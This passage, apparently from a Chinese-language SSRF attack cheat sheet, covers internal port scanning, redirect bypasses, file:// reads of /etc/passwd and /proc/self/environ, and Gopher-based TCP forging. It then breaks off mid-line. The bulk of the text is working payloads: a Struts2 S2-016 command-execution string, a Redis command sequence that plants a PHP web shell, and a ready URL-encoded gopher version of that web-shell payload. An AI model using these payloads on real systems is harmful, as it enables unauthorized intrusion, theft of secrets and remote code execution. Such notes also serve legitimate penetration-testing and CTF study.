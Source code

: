 ## XSPA

- port scan
    - `127.0.0.1:80` => OK
    - `127.0.0.1:87` => Timeout
    - `127.0.0.1:9487` => Timeout

## 302 Redirect Bypass

- 用来绕过protocol限制
- 第一次SSRF，网站有做检查、过滤
- 302跳转做第二次SSRF没有检查

## 本地利用

- file protocol
    - `file:///etc/passwd`
    - `file:///proc/self/cmdline`
        - 看他在跑啥
    - `file:///proc/self/exe`
        - dump binary
    - `file:///proc/self/environ`
        - 读环境变量
    - `curl file://google.com/etc/passwd`
        - 新版已修掉
        - 实测libcurl 7.47可work
    - Java原生可列目录
    - Perl/Ruby open Command Injection

## 远程利用
- Gopher
    - 可伪造任意TCP
    - `gopher://127.0.0.1:5278/xGG%0d%0aININDER`
- 常见例子
    - Struts2
        - S2-016
            - `action:`、`redirect:`、`redirectAction:`
            - `index.do?redirect:${new java.lang.ProcessBuilder('id').start()}`
    - ElasticSearch
        - default port: `9200`
    - Redis
        - default port: `6379`
        - 用SAVE写shell
        ```
            FLUSHALL 
            SET myshell "<?php system($_GET['cmd']) ?>"
            CONFIG SET DIR /www 
            CONFIG SET DBFILENAME shell.php 
            SAVE
            QUIT
        ```
        - URLencoded payload:
        `gopher://127.0.0.1:6379/_FLUSHALL%0D%0ASET%20myshell%20%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%3F%3E%22%0D%0ACONFIG%20SET%20DIR%20%2fwww%2f%0D%0ACONFIG%20SET%20DBFILENAME%20shell.php%0D%0ASAVE%0D%0AQUIT`
    - FastCGI
        - default port: 9000
        - example
            - Discuz Pwn
                - 302.php: `<?php